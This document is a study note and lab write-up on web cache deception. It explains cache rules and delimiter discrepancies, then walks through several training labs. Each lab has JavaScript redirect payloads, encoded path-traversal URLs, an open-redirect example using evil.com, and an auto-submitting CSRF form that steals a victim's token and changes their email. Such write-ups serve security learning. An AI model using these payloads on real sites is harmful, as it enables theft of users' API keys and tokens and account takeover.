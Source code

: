 # Web Cache Deception
Web cache deception is a vulnerability that enables an attacker to trick a web cache into storing sensitive, dynamic content. It's caused by discrepancies between how the cache server and origin server handle requests.

## Web caches
A web cache is a system that sits between the origin server and the user. When a client requests a static resource, the request is first directed to the cache. If the cache doesn't contain a copy of the resource (known as a cache miss), the request is forwarded to the origin server, which processes and responds to the request. The response is then sent to the cache before being sent to the user. The cache uses a preconfigured set of rules to determine whether to store the response.

When a request for the same static resource is made in the future, the cache serves the stored copy of the response directly to the user (known as a cache hit).

**Cache keys:** cache makes decision whether to store base on these aspects:
- URL path and query params
- Other elements such as headers and content type

**Cache rules:**
- Static file extension: match the extension of static files like `.css` or `.js`.
- Static directory: match all URL paths that start with a specific prefix like `/static` or `/assets`.
- File name: match specific file names to target files that are universally required for web operations and change rarely like `robots.txt` or `favicon.ico`.

**Origin delimiters:**
```
URL: /MyAccount;var1=val → Path: /MyAccount
URL: /hello;var=a/world;var1=b;var2=c → Path: /hello/world

URL: /MyAccount.html → Path: /MyAccount (default HTML view)
URL: /MyAccount.css → Path: /MyAccount (CSS view or error if not present)
URL: /MyAccount.aaaa → Path: /MyAccount (default HTML view)

URL: /MyAccount%00aaa → Path: /MyAccount

URL: /users/MyAccount%0aaaa → Path: /account/MyAccount
```

**Detecting origin delimiters:**

Send a request to `/my-account$abcd`, if the messages are identical, the character or string is used as a delimiter. Use Burp's Intruder to automate this with [delimeter list](delimeter_list.txt).

**Exploit via redirect:**

If
```
GET /home HTTP/1.1
Host: server.com
X-Forwarded-Host: evil.com
```
got an open redirect response
```
HTTP/1.1 302 Found
Location: http://evil.com/index.html
```
For example, if the web application loads the `/main.js` script on the homepage, we can poison the path in the cache and redirect the browser to `http://evil.com/index.html` via the `302` response:
|           Browser             |        Cache Proxy       | Origin Server |
|-------------------------------|--------------------------|---------------|
|      `/main.js#/../home`      |         `/main.js`       |    `/home`    |

### LAB: Exploiting path mapping for web cache deception
The API key is shown in the `/my-account`. Try adding a static extension and make another request to `/my-account/pucavv.js`.
Notice that the response contains the `X-Cache: miss` and `Cache-Control: max-age=30` headers. The `X-Cache: miss` header indicates that this response wasn't served from the cache. The `Cache-Control: max-age=30` header suggests that if the response has been cached, it should be stored for 30 seconds.
Resend the request to `/my-account/pucavv.js` and notice `X-Cache: hit`. This means `/my-account/pucavv.js` is cached and has a cache rule based on `.js`.
Use this script to make the victim visit his `/my-account` page and store it's content in the cache:

    <script>
        location = "https://0a78003f03a9e1c280f7096300340038.web-security-academy.net/my-account/pucavvv.js"
    </script>

After the victim viewed the page, we visit the same URL to obtain his API key store in the cache.

### LAB: Exploiting path delimiters for web cache deception
Use the [delimiter_list.txt](./delimeter_list.txt) as a payload to find the discrepancy between the origin server and the cache by sending the `GET /my-account$$pucavv.js` to the Intruder and bruteforce for the response containing `/my-account` page.
Found that `/my-account;pucavv.js` returns the page's content. Use this script to make the victim vist his `/my-account` page and store it's content in the cache:

    <script>
        location = "https://0a2c00c404d1923583d714ab009f0099.web-security-academy.net/my-account;pucavv.js"
    </script>

After the victim viewed the page, we visit the same URL to obtain his API key store in the cache.

### LAB: Exploiting origin server normalization for web cache deception
Make a `GET /resources/..%2fmy-account` request and notice the `X-Cache: miss` header. Resend this request, now receive a `X-Cache: hit` header. This indicates that there is static directory cache rule and the server is normalizing the path to `/my-account`.
Use this script to make the victim vist his `/my-account` page and store it's content in the cache:

    <script>
        location = "https://0a5b00b803dbaa4d80c003b300fc0058.web-security-academy.net/resources/..%2fmy-account"
    </script>

> Note: When exploiting normalization by the cache server, encode all characters in the path traversal sequence. Using encoded characters helps avoid unexpected behavior when using delimiters, and there's no need to have an unencoded slash following the static directory prefix since the cache will handle the decoding. 

### LAB: Exploiting cache server normalization for web cache deception
Use the [delimiter_list.txt](./delimeter_list.txt) as a payload to find the discrepancy between the origin server and the cache by sending the `GET /my-account$$pucavv` to the Intruder and bruteforce for the response containing `/my-account` page.
Found that both `?` (`%3f`) and `#` (`%23`) are delimiters that return the page's content. Now make a request exploiting the normalization of the cache server and found that for `GET %2fmy-account%23%2f%2e%2e%2fresources HTTP/2` (`/my-account#/../resources`) the server respond with `X-Cache` header. This means:
- The cache server interprets it as `/resources`
- The origin server interprets it as `/my-account`

Use this script to make the victim visit his `/my-account` page and store it's content in the cache:

    <script>
        location = "https://0a5b00b803dbaa4d80c003b300fc0058.web-security-academy.net%2fmy-account%23%2f%2e%2e%2fresources"
    </script>

### LAB: Exploiting exact-match cache rules for web cache deception
First find the delimiter that cause the discrepancy just like the other labs which are `;` and `?`. 
Test the cache server and found out that it doesn't have static extension or static directory rule. Let's test for file name rule. Send this request:

    GET /robots.txt HTTP/2

Notice the `X-Cache` header, which indicates that the cache server has a file name rule.
Try path normalization by sending this request:

    GET /my-account;%2f%2e%2e%2frobots.txt HTTP/2 or
    GET /my-account?%2f%2e%2e%2frobots.txt HTTP/2 

Notice only the `;` delimiter cause the cache server to store the request. This means: 
- The cache server interprets it as `/robots.txt`
- The origin server interprets it as `/my-account`

Use this script to make the victim visit his `/my-account` page and store it's content in the cache:

    <script>
        location = "https://0a5b00b803dbaa4d80c003b300fc0058.web-security-academy.net/my-account;%2f%2e%2e%2frobots.txt"
    </script>

Now visit the same location and obtain the victim's CSRF token. Use that to construct this form which when delivered to the victim will cause the victim to change his email:

    <html>
        <body>
            <form action="https://0aea0036031f814680c57bc800a3009c.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="haha&#64;gmail&#46;com" />
            <input type="hidden" name="csrf" value="v5tv5ZzB8ipY1PY9hFeaEB5tHoq7zS9L" />
            </form>
            <script>
                document.forms[0].submit();
            </script>
        </body>
    </html>
